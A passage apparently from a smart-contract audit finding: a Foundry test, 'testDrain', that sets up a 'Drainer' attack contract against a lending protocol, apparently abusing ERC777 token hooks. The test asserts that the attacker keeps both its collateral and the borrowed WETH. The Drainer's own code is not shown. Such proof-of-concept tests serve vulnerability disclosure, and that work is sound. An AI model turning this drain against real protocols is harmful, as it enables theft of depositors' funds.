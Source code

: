 ```solidity
```

Example test case
```solidity
	using FixedPointMathLib for uint256;
	address account;
	address public owner = cheats.addr(1);  

	// Attack contract
	Drainer drainer;

	function setUp() public {
		setupContracts();
		account = openAccount(owner);

		drainer = new Drainer(
			address(accountManager),
			address(registry),
			address(erc1820registry),
			address(erc777),
			address(weth)
		);
	}

	function testDrain() public {
		// Setup
		uint256 tokenPoolAmount = 1000 ether;
		uint256 collateral = 100 ether;
		uint256 borrowAmount = collateral / 10;

		// give some erc777 to drainer
		erc777.mint(address(drainer), 1 ether);

		// give some eth to drainer
		vm.deal(address(drainer), collateral);

		// Deposit some ETH into lending pool
		cheats.deal(lender, tokenPoolAmount);
		cheats.prank(lender);
		lEth.depositEth{value: tokenPoolAmount}();

		drainer.prepare(1 ether);
		// since you can't close an account during the same block
		// we need to change the block number to simulate waiting
		// a block
		vm.roll(2);
		drainer.startAttack();

		assertEq(address(drainer).balance, collateral);
		assertEq(weth.balanceOf(address(drainer)), borrowAmount);
	}
```
